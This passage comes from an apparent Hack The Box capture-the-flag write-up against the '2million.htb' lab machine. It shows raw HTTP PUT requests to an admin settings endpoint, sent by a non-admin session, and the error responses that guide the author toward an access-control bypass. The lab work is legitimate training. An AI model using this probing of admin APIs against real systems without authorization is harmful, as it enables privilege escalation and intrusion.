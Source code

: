 I cannot create an admin's vpn since I'm not an admin.
Let's try the last : `/api/v1/admin/settings/update`

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:36:17 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 53

{"status":"danger","message":"Invalid content type."}
```

It says the `content-type` is invalid while I didn't include `content-type` in the request header.
Let's add it with `application/json`.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Upgrade-Insecure-Requests: 1
Content-Type: application/json

===

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 22 Dec 2024 20:57:13 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 56

{"status":"danger","message":"Missing parameter: email"}
```
